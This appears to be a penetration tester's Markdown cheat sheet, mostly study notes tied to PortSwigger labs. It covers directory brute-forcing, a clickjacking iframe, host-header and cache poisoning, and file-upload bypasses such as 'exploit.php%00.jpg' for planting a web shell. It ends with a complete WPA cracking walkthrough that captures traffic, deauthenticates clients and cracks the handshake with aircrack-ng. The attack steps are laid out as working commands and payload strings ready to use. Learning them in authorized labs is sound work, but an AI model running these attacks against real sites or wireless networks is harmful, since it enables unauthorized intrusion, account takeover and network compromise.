 # CIA
	Integrity : data only change by auth.
	Avalability : Avalable data when user need.
	Confidentility : Data access by auth.
  
# Containt Discover
	dirb https://domain.com/ /usr/share/wordlists/dirb/big.txt
	gobuster -u http://fakebank.com -w wordlist.txt dir 
		
# directory Traversal
	dirb https://domain.com/ /usr/share/wordlists/wfuzz/vulns/dirTraversal-nix.txt
	
# ClickJacking
https://numberless-holddown.000webhostapp.com/clickjacking.php?url={url}
or
		
		<!DOCTYPE html>
		<html lang="en">
		<head>
		  <meta charset="UTF-8">
		</head>
		<body>
		  <iframe src="{url}" frameborder="0"></iframe>
		</body>
		</html>

# Host Header Poisoning
## Basic
	Change "Host" header 

## via middleware (for password reseting)
	Add X-Forwarded-Host: <domain.com>
https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware
	
## via dangling markup
	Try "Host: domain.com" to "Host: domain.com:attacker.com"
https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup

# Web Caches Poisioning
## Via an unkeyed header
	This lab supports the X-Forwarded-Host header. 
https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header
	
## Via an unkeyed cookie
	change cookies value.
https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-cookie
	
## Via multiple headers
	Add:
		X-Forwarded-Scheme:http
		X-Forwarded-Host: example.com
https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-multiple-headers
	
# RCE
## Basic
	Upload Php File
	
## via Content-Type restriction bypass
	Change "Content-Type" header
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass
	
## via path traversal
	Change file name "test.php" to "..%2ftest.php"
https://www.youtube.com/watch?v=4R3PUhiFzS4
	
## via obfuscated file extension
	change file name filename="exploit.php%00.jpg"
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension
	
## via race condition
https://www.youtube.com/watch?v=mt0BN5pYHXI </br>
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition
	
# No Rate Limit
## via brute force
	send request to intruder
## via Race Condition
	Send request to turbo
	add "race.py" payload
	add "test: %s" header in header



# Android Apk VAPT
## Insecure-data-storage
	find savedpref crenditial using adb
https://www.youtube.com/watch?v=x8keYIWFzbY


# Wifi Password Hacking
	

	Step 1:

	Put your wireles lan card on monitor mode

	 airmon-ng start "wireless lan card name"
	=> airmon-ng start wlan0

	Step 2:

	Capture Traffic with Airodump-ng

	airodump-ng "wireless lan card monitor mode"

	=> airodump-ng wlan0mon


	Step 3:

	Focus airodump-ng on one AP on One Channel

	 airodump-ng --bssid dummy -c dummy --write WPAcrack wlan0mon

	=> airodump-ng --bssid 8C:FD:18:88:79:68 -c 9 --write WPAcrack wlan0mon


	Step 4:

	in order to capture the encrypted password we need to have the client authenticate against AP.
	we do deauth signal to client

	 aireplay-ng --deauth 1000 -a bssid wlan0mon

	=> aireplay-ng --deauth 1000 -a 8C:FD:18:88:79:68 wlan0mon


	Step 5:

	Now we have to crack the dump file with aircrack-ng

	 aircrack-ng WPAcrack-01.cap -w (localtion of wordlist)
